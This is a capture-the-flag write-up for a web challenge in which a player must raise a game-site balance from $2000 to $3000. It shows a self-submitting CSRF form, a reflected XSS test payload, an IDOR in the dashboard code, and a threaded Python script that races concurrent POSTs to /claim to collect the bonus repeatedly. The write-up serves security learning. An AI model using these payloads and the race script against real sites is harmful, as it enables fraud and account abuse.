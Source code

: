 # Straightforward

**Easy**

Test out our game center. You'll have free claiming bonus for first timers!

*Author: vicevirus ** **Flag format: UMCS{...}**

[http://159.69.219.192:7859/](http://159.69.219.192:7859/)

The challenge required a balance of $3000 to redeem a flag, but each user started with only $1000. The daily bonus system added $1000 more, totaling just $2000—still $1000 short of the goal.

---

The dashboard offered three actions:

- **Collect Daily Bonus**: A `POST` form to `/claim`
- **Redeem Secret Reward ($3000)**: A `POST` form to `/buy_flag`
- **Logout**: A `GET` form to `/logout`

Attempting to buy the flag via `/buy_flag` resulted in a redirect to `/dashboard` with a flash message:

> “Insufficient funds to redeem the reward.”
> 

This confirmed that I needed $3000 in my account, $1000 more than what I could normally accumulate.

---

### CSRF Vulnerability: A Dead End

I noticed the website relied solely on HTTP cookies to identify users, making it vulnerable to **Cross-Site Request Forgery (CSRF)**. Here’s how I explored that path:

![7f2998c0-4319-442b-963d-e91c4c5b7051](https://github.com/user-attachments/assets/524dcb00-9e93-46c7-b248-48a92f2dd2a5)

![image](https://github.com/user-attachments/assets/c40228a1-b845-4209-80d2-fcb3462fcca2)

### **First Attempt: CSRF on `/claim`**

I hypothesized I could trick other users into claiming their daily bonus and somehow redirect the funds to my account.

Example request:

```php
POST /claim HTTP/1.1
Host: 159.69.219.192:7859
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Cookie: session=eyJ1c2VybmFtZSI6InNveXJpYSJ9...
```

The request had no body and relied on the session cookie. I created a malicious HTML page to force other users to unknowingly trigger the request:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://159.69.219.192:7859/claim" method="POST">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Unfortunately, the bonus was credited to the victim's account not mine as the server used the session cookie to identify the recipient.

### **Second Attempt: Parameter Injection**

I tried modifying the form to include a `username` parameter:

```html
<input type="hidden" name="username" value="attacker">
```

I even tried variations like `user=attacker`, `recipient=attacker`, and `claim_for=attacker`, but all were ignored. The server exclusively trusted `session['username']`. Thus, CSRF alone couldn’t redirect funds.

### XSS Exploration

While exploring, I noticed reflected input in the `username` parameter on `/dashboard`. Example:

```
GET /dashboard?username=soyriavypu57uu4k
```

Returned:

```html
<h2>Hello, soyriavypu57uu4k</h2>
```

I tested for **XSS** with:

```html
/dashboard?username="><script>alert('xss')</script>
```

But input was either encoded or blocked by the browser due to `HttpOnly` cookies. XSS wasn't exploitable here.

---

### Discovering Project Files & Race Conditions

Halfway through, I accessed the project codebase and identified two critical vulnerabilities:

1. **IDOR in `dashboard`**:
    
    ```python
    display_user = request.args.get('username') or session['username']
    ```
    
    This meant appending `?username=target_user` allowed me to view any user's balance. While helpful for recon, it didn’t help me increase *my* balance.
    
2.  **Race Condition in `/claim`**
    
    The real goldmine was a **race condition** caused by poor SQLite handling:
    
    The code used:
    
    ```python
    def get_db():
        if 'db' not in g:
            g.db = sqlite3.connect(DATABASE, check_same_thread=False)
            g.db.row_factory = sqlite3.Row
        return g.db
    
    def claim():
        if 'username' not in session:
            return redirect(url_for('register'))
        username = session['username']
        db = get_db()
        cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
        row = cur.fetchone()
        if row and row['claimed']:
            flash("You have already claimed your daily bonus!", "danger")
            return redirect(url_for('dashboard'))
        db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
        db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
        db.commit()
        flash("Daily bonus collected!", "success")
        return redirect(url_for('dashboard'))
    ```
    
    - **`check_same_thread=False`** for SQLite
    - No locking
    - No transaction wrapping for the check-update process
    
    This allowed concurrent POSTs to **`/claim`** to bypass the daily bonus limit.
    

### Exploiting the Race Condition

I wrote a simple Python script to send multiple concurrent requests:

```python
import requests
import threading

url = "http://159.69.219.192:7859/claim"
cookies = {"session": "eyJ1c2VybmFtZSI6InNmYWRhZGRzYWQifQ.Z_oEBg.Lfs9yLumisWCZMvNsIN8ofeEx08"}

def send_claim():
    response = requests.post(url, cookies=cookies)
    print(response.text)

threads = []
for _ in range(10):  # Send 10 concurrent requests
    t = threading.Thread(target=send_claim)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

After execution, I checked `/dashboard` and saw my balance jump to **6000 units** confirming multiple bonuses were granted before the server marked the daily claim as complete.

![image 1](https://github.com/user-attachments/assets/a0c2b878-751d-4739-bef7-401bd10e83b0)

![image 2](https://github.com/user-attachments/assets/c7281081-20ee-4ce4-9700-68a2b084809c)


### Buying the Flag

- With enough funds, I sent:

```php
POST /buy_flag HTTP/1.1
Host: 159.69.219.192:7859
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://159.69.219.192:7859
Connection: keep-alive
Referer: http://159.69.219.192:7859/dashboard
Cookie: session=eyJ1c2VybmFtZSI6ImRhc2RhZGF3ZGFzZCJ9.Z_ytuA.PIGnlrnvTZaipYwCne8B3BektPI
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

- The response contained the flag: `UMCS{...}`
    
![image 3](https://github.com/user-attachments/assets/300424ac-d985-41c3-9651-21f2c767b69b)
    
    ---
    
    ## Why CSRF Failed?
    
    - The server correctly tied bonus credit to the authenticated user in the session. Without a server-side flaw, CSRF couldn’t reroute bonuses.
    
    ### IDOR’s Role
    
    - It only revealed balances and was good for recon but useless for escalation.
    
    ### Race Condition Insight
    
    - The lack of atomic transactions and poor SQLite handling allowed me to bypass balance restrictions and exploit the logic race.
